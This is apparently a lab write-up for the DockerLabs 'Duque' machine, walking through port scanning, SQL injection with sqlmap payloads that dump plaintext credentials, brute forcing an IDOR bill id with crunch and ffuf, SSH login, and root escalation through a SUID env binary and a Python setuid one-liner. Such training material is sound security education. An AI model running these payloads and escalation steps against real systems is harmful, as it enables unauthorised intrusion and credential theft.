


# Duque

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Duque | jes507 | easy | dockerlabs |

**Summary:** The Duque machine is a web application focused challenge that begins with a corporate dashboard for NaturGas Solutions. The web panel at `/bills/index.php` is vulnerable to SQL injection in the `username` parameter, allowing an attacker to dump the `users` table and recover credentials for three accounts (mario, jesus, and admin). Although these credentials grant access to the billing panel, further enumeration is required. The panel's `panel.php?id=` endpoint is vulnerable to an Insecure Direct Object Reference (IDOR) combined with a predictable identifier pattern. By brute forcing the `id` parameter using `crunch` and `ffuf`, a valid bill is discovered that leaks the SSH password for the `duque` user. Once logged in via SSH, privilege escalation is straightforward: the `env` binary has the SUID bit set, allowing the operator to spawn a privileged shell with `env /bin/bash -p`. A Python one liner is then used to fully escalate to the root user by setting the real UID and GID to zero.

---

## Reconnaissance

The initial scan revealed two open ports on the target.

```
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-20 12:43 WIB
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 84:aa:fd:4d:67:65:79:a1:a9:5a:76:55:04:5a:21:b5 (ECDSA)
|_  256 67:bb:74:40:28:18:94:00:0c:bf:fc:08:17:b1:61:8b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: NaturGas Solutions - Dashboard Corporativo
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds
```

Port 22 runs OpenSSH and port 80 runs Apache with an HTTP title of "NaturGas Solutions - Dashboard Corporativo".

Directory enumeration with `feroxbuster` uncovered several interesting paths.

```
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ feroxbuster -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/
 🚩  In-Scope Url          │ 172.17.0.2
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, html]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      401l      833w    11622c http://172.17.0.2/
200      GET      401l      833w    11622c http://172.17.0.2/index.php
301      GET        9l       28w      311c http://172.17.0.2/intranet => http://172.17.0.2/intranet/
301      GET        9l       28w      308c http://172.17.0.2/bills => http://172.17.0.2/bills/
301      GET        9l       28w      312c http://172.17.0.2/empleados => http://172.17.0.2/empleados/
301      GET        9l       28w      312c http://172.17.0.2/normativa => http://172.17.0.2/normativa/
301      GET        9l       28w      314c http://172.17.0.2/proveedores => http://172.17.0.2/proveedores/
200      GET      163l      338w     5190c http://172.17.0.2/proveedores/index.html
200      GET       61l      162w     1889c http://172.17.0.2/intranet/index.html
200      GET       40l      104w     1186c http://172.17.0.2/empleados/index.html
200      GET      119l      470w     4780c http://172.17.0.2/normativa/index.html
200      GET      172l      331w     4676c http://172.17.0.2/bills/index.php
302      GET        0l        0w        0c http://172.17.0.2/bills/logout.php => index.php
302      GET        0l        0w        0c http://172.17.0.2/bills/panel.php => http://172.17.0.2/bills/index.php
[####################] - 13m  5293120/5293120 0s      found:14      errors:9      
[####################] - 13m   882180/882180  1168/s  http://172.17.0.2/ 
[####################] - 13m   882180/882180  1146/s  http://172.17.0.2/normativa/ 
[####################] - 13m   882180/882180  1149/s  http://172.17.0.2/intranet/ 
[####################] - 13m   882180/882180  1145/s  http://172.17.0.2/empleados/ 
[####################] - 13m   882180/882180  1147/s  http://172.17.0.2/proveedores/ 
[####################] - 13m   882180/882180  1150/s  http://172.17.0.2/bills/   
```

The `/bills/` directory contains a login page (`index.php`) and a `panel.php` endpoint, which immediately stood out as the likely attack surface.

---

## Initial Access

The `/bills/index.php` login form was tested for SQL injection using `sqlmap`. The `username` parameter was vulnerable.

```
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/dockerlabs-writeups]
└─$ sqlmap -u "http://$ip$/bills/index.php" --data="username=test&password=test" --batch --dump -v 0
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:37:22 /2026-07-20/

you have not declared cookie(s), while server wants to set its own ('PHPSESSID=ug770e056k6...j6itro9gv9'). Do you want to use those [Y/n] Ysqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 8751 FROM (SELECT(SLEEP(5)))IXZO) AND 'wzde'='wzde&password=test

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=test' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x6d424c4868535a4146566a424f486d616f496968426a734f736961466b70464a676a794d4944586d,0x7178766271),NULL-- -&password=test
---
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: PHP, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
got a refresh intent (redirect like response common to login pages) to 'panel.php'. Do you want to apply it from now on? [Y/n] Y
Database: register
Table: users
[3 entries]
+----+-----------+----------+
| id | passwd    | username |
+----+-----------+----------+
| 1  | mario123  | mario    |
| 2  | jesus2026 | jesus    |
| 3  | admin123  | admin    |
+----+-----------+----------+


[*] ending @ 13:37:23 /2026-07-20/
```

The `users` table contained three sets of credentials. These were used to authenticate into the billing panel.



Once logged in, the `panel.php` page displayed bills with an `id` parameter in the URL. The identifier followed a predictable pattern: one letter followed by three digits. A brute force attack using `crunch` piped into `ffuf` was launched to find valid bill IDs.

```
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ crunch 4 4 -t @%%% | ffuf -u "http://172.17.0.2/bills/panel.php?id=xyFUZZ" -b "PHPSESSID=0nm69jfsv1b90366ulo9hj8dhe" -w - -fw 2715,2616

Crunch will now generate the following amount of data: 130000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 26000 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/bills/panel.php?id=xyFUZZ
 :: Wordlist         : FUZZ: -
 :: Header           : Cookie: PHPSESSID=0nm69jfsv1b90366ulo9hj8dhe
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 2715,2616
________________________________________________

c724                    [Status: 200, Size: 5994, Words: 2624, Lines: 224, Duration: 0ms]
:: Progress: [26000/26000] :: Job [1/1] :: 1694 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
```

The bill ID `c724` returned a different response size. The page contained credentials for the `duque` user, including the SSH password.



With these credentials, an SSH session was established as the `duque` user.

```
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ssh duque@$ip                         
duque@172.17.0.2's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.18.33.2-microsoft-standard-WSL2 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

duque@f5d33746a865:~$ id;whoami;hostname
uid=1000(duque) gid=1000(duque) groups=1000(duque)
duque
f5d33746a865
```

---

## Privilege Escalation

Internal enumeration focused on SUID binaries. The `env` binary stood out with its SUID bit set.

```
duque@f5d33746a865:~$ find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chsh
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
duque@f5d33746a865:~$ ls -la /usr/bin/env
-rwsr-xr-x 1 root root 43976 Jan 23 10:51 /usr/bin/env
```

The SUID `env` binary allowed spawning a shell with elevated privileges using the `-p` flag.

```
duque@f5d33746a865:~$ env /bin/bash -p
bash-5.1# id
uid=1000(duque) gid=1000(duque) euid=0(root) groups=1000(duque)
```

At this point the effective UID was root, but the real UID was still 1000. A Python command was used to set the real UID and GID to 0, granting full root access.

```
bash-5.1# python3 -c 'import os, pty; os.setuid(0); os.setgid(0); pty.spawn("/bin/bash")'
root@f5d33746a865:~# id
uid=0(root) gid=0(root) groups=0(root),1000(duque)
root@f5d33746a865:~# su -
root@f5d33746a865:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
f5d33746a865
```

The machine was fully compromised.

---

## Attack Chain Summary

1. **Reconnaissance**: Nmap discovery of ports 22 (SSH) and 80 (HTTP). Feroxbuster directory enumeration revealed a `/bills/` panel with a login page.
2. **Vulnerability Discovery**: SQL injection was identified in the `username` parameter of the `/bills/index.php` login form, allowing extraction of the `users` database.
3. **Exploitation**: Sqlmap dumped three user credentials. After logging into the billing panel, an IDOR vulnerability in the `panel.php?id=` parameter was exploited. A pattern based brute force with `crunch` and `ffuf` found a valid bill containing the SSH password for the `duque` user.
4. **Internal Enumeration**: After SSH access, SUID binaries were enumerated and `/usr/bin/env` was found with the SUID bit set.
5. **Privilege Escalation**: The `env /bin/bash -p` command granted an effective UID of root. A Python script using `os.setuid(0)` and `os.setgid(0)` provided a fully privileged root shell.
